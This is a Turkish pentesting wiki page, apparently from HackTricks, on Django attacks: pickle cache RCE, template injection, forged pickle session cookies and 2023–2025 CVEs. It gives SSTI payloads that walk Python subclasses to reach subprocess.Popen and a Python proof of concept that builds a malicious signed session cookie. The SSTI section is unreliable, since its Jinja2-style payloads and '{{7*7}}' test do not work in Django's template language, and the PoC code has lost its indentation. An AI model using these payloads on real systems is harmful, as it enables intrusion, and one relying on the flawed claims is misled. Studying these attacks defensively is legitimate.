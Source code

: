 # Django

{{#include /banners/hacktricks-training.md}}

## Önbellek Manipülasyonu ile RCE
Django'nun varsayılan önbellek depolama yöntemi [Python pickles](https://docs.python.org/3/library/pickle.html) olup, [güvenilmeyen girişler unpickled](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) olduğunda RCE'ye yol açabilir. **Eğer bir saldırgan önbelleğe yazma erişimi elde ederse, bu açığı temel sunucuda RCE'ye yükseltebilir**.

Django önbelleği dört yerden birinde saklanır: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [bellek](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [dosyalar](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) veya bir [veritabanı](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Redis sunucusunda veya veritabanında saklanan önbellek, en olası saldırı vektörleridir (Redis enjeksiyonu ve SQL enjeksiyonu), ancak bir saldırgan dosya tabanlı önbelleği kullanarak keyfi bir yazmayı RCE'ye dönüştürebilir. Bakımcılar bunu bir sorun olarak işaretlemiştir. Önbellek dosyası klasörünün, SQL tablo adının ve Redis sunucu bilgilerinin uygulamaya göre değişeceğini belirtmek önemlidir.

Bu HackerOne raporu, SQLite veritabanında saklanan Django önbelleğini istismar etmenin harika, tekrarlanabilir bir örneğini sunmaktadır: https://hackerone.com/reports/1415436

---

## Sunucu Tarafı Şablon Enjeksiyonu (SSTI)
Django Şablon Dili (DTL) **Turing-tamamlayıcıdır**. Kullanıcı tarafından sağlanan veriler bir *şablon dizesi* olarak işlenirse (örneğin `Template(user_input).render()` çağrılarak veya `|safe`/`format_html()` otomatik kaçışları kaldırdığında), bir saldırgan tam SSTI → RCE elde edebilir.

### Tespit
1. *Herhangi* bir temizlenmemiş istek verisini içeren `Template()` / `Engine.from_string()` / `render_to_string()` için dinamik çağrılar arayın.
2. Zaman tabanlı veya aritmetik bir yük gönderin:
```django
{{7*7}}
```
Eğer işlenen çıktı `49` içeriyorsa, giriş şablon motoru tarafından derlenmiştir.

### RCE'ye Giden Yolda
Django, `__import__`'a doğrudan erişimi engeller, ancak Python nesne grafiğine erişim mümkündür:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
`subprocess.Popen`'ün indeksini bulun (≈400–500 Python derlemesine bağlı olarak) ve rastgele komutları çalıştırın:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Daha güvenli evrensel bir alet, `cls.__name__ == 'Popen'` olana kadar yinelemektir.

Aynı alet, kullanıcı girişini yanlış işleyen **Debug Toolbar** veya **Django-CMS** şablon render özellikleri için de çalışır.

---

## Pickle Destekli Oturum Çerezi RCE
Eğer `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` ayarı etkinleştirilmişse (veya pickle'ı deseralize eden özel bir serileştirici), Django *oturum çerezini şifre çözer ve pickle'dan çıkarır* **herhangi bir görünüm kodunu çağırmadan önce**. Bu nedenle, geçerli bir imzalama anahtarına (varsayılan olarak projenin `SECRET_KEY`'i) sahip olmak, anında uzaktan kod yürütme için yeterlidir.

### Sömürü Gereksinimleri
* Sunucu `PickleSerializer` kullanıyor.
* Saldırgan `settings.SECRET_KEY`'yi biliyor / tahmin edebiliyor (GitHub, `.env`, hata sayfaları vb. üzerinden sızıntılar).

### Kanıt-of-Kavram
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Gönderilen çerezi, yükleme WSGI işçi izinleriyle çalışır.

**Önlemler**: Varsayılan `JSONSerializer`'ı koruyun, `SECRET_KEY`'i döndürün ve `SESSION_COOKIE_HTTPONLY`'yi yapılandırın.

---

## Son (2023-2025) Yüksek Etkili Django CVE'leri Pentester'ların Kontrol Etmesi Gerekenler
* **CVE-2025-48432** – *Kaçırılmamış `request.path` üzerinden Log Enjeksiyonu* (4 Haziran 2025'te düzeltildi). Saldırganların log dosyalarına yeni satırlar/ANSI kodları sokmasına ve aşağı akış log analizini zehirlemesine olanak tanır. Yamanın seviyesi ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kritik SQL enjeksiyonu* `QuerySet.values()/values_list()` üzerinde `JSONField`'da (CVSS 9.8). JSON anahtarlarını, alıntıdan çıkmak ve keyfi SQL çalıştırmak için oluşturun. 4.2.15 / 5.0.8'de düzeltildi.

Her zaman `X-Frame-Options` hata sayfası veya `/static/admin/css/base.css` hash'i aracılığıyla tam çerçeve sürümünü parmak izi ile belirleyin ve yukarıdakileri uygun olduğunda test edin.

---

## Referanslar
* Django güvenlik sürümü – "Django 5.2.2, 5.1.10, 4.2.22 CVE-2025-48432'yi ele alıyor" – 4 Haziran 2025.
* OP-Innovate: "Django, SQL enjeksiyon açığını gidermek için güvenlik güncellemeleri yayınladı CVE-2024-42005" – 11 Ağustos 2024.

{{#include /banners/hacktricks-training.md}}
